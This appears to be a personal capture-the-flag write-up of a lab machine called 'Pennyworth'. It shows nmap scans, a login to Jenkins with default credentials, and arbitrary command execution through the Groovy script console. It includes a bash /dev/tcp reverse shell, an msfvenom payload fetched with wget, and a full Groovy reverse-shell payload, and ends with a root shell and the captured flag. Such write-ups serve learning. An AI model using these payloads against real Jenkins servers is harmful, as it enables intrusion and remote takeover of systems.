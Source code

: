 # Pennyworth

> 10.129.59.175

## Nmap
```
nmap 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 21:37 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```

```
nmap -sS -sV -sC -O -p 8080 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 21:39 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.26 seconds
```

## Jetty
> Eclipse Jetty is a Java web server and Java Servlet container. While web servers are usually associated with serving documents to people, Jetty is now often used for machine to machine communications, usually within larger software frameworks.

## Jenkins
- Access the site: `http://10.129.59.175:8080`
- You get a login screen that says, "Welcome to Jenkins!" and asks for username and password.
- Found an nse script here: https://github.com/icarot/NSE_scripts/blob/master/jenkins-info.nse
  - Downloaded and just ran it...
```
nmap --script jenkins-info -p 8080 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 22:05 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
| jenkins-info: 
|   Hudson Version: 1.395
|   Jenkins Version: 2.289.1
|   Jenkins Session ID: aa6c090a
|_  Server: Jetty(9.4.39.v20210325)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
```

Google search: "jenkins default credentials"
- Results: admin:password
- Didn't work. "admin" is a Windows login.
- **root:password** worked and I got in.

In order to get to the Groovy Script CLI page: 
> Jenkins features a [Groovy script console](https://www.jenkins.io/doc/book/managing/script-console/) which allows one to run arbitrary Groovy scripts within the Jenkins controller runtime or in the runtime on agents.
- The Script Console on the controller can be accessed from "Manage Jenkins" > "Script Console" (takes you to: `/cli`). Or by visiting the sub-URL `/script` on your Jenkins instance.
  - The former takes you to a list of "Available Commands," but I could not access the actual CLI.
  - Using the `/script` in the URL took me right to the CLI. 

----
> respawn: 10.129.212.139

I tried some arbitrary commands in the CLI: 
- `which bash` : gave me an error
- `ifconfig`   : gave me an error
- And so I Googled for help...

[How to Execute Commands in Groovy](https://groovy-lang.gitlab.io/101-scripts/basico/command_local-en.html)
- You need to use the `execute()` method.
- The following found [here](https://stackoverflow.com/questions/2701547/how-to-make-system-command-calls-in-java-groovy): 
  - The simplest way to invoke an external process in Groovy is to use the execute() command on a string. For example, to execute maven from a groovy script run this:
```
"cmd /c mvn".execute()
# if you want to capture the output of the command and maybe print it out, you can do this:
print "cmd /c mvn".execute().text
# the 'cmd /c' at the start invokes the Windows command shell. Since mvn.bat is a batch script you need this. For Unix you can invoke the system shell.
```

### Some stuff I tried:
```
"cat /etc/passwd ".execute().text          # that printed the /etc/passwd file
"ifconfig".execute().text                  # that showed me network info
"which bash".execute().text                # result: /usr/bin/bash
"bash --version".execute().text            # result: version 5.0.17(1)-release
"ping -c 5 10.129.212.139".execute().text  # got all pings returned okay
```

Therefore I can execute arbitrary system commands on the box as root. 

## Pwn
- The famous bash one-liner
### Set up a listener on my local/attack machine: 
```
nc -nvlp 1234     # TCP listener
nc -nvlup 1234    # UDP listener
```

### Executed the Bash One-Liner: 
```
/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.170/1234 0>&1'
```
Did not work. Tried the following and nothing worked: 
```
# on the local machine
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.170 LPORT=1234 -f elf > shell-x64.elf
python3 -m http.server 80
# on the remote machine
"wget http://10.10.14.170/shell-x64.elf".execute().text
```

The wget executed but I could not get the shell executable to run on the target.
- Apparently in Groovy you need to create a cmd process that will execute the file.


## Walkthrough
- Jenkins exposures:
  - [A handbook including multiple ways of gaining Jenkins RCE's](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)
  - [A repository similar to the above, including links to scripts and tools](https://github.com/gquere/pwn_jenkins)

Since it only executes the Groovy commands, we will need to create a payload in Groovy to execute the reverse shell connection.
- In order to do that, we will need a specially crafted payload, which we can find in the following GitHub [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).
- He used the one here but cleaned it up a little by putting separate commands on each line (NOTE: you need to take out my #comments before running in Groovy).
```
String host="{your_IP}";    # Specify the IP address for the target to connect back to
int port=1234;              # Specify the port on which the attacker will listen on
String cmd="/bin/bash";     # Specify the shell type the attacker expects

# The rest of the script will instruct the target to create a cmd process which will initialize a connection request to the provided host and port (us, in this case). 
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And that's it. I'm in. 

```
/bin/bash -i
root@pennyworth:/#

root@pennyworth:/# find / -name "flag.*" 2>/dev/null
find / -name "flag.*" 2>/dev/null
/root/flag.txt

root@pennyworth:/# cat /root/flag.txt
cat /root/flag.txt
9cdfb439c7876e703e307864c9167a15
```

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/c26f2bc2-fb84-4f06-be09-44c8cbcc8fd3)
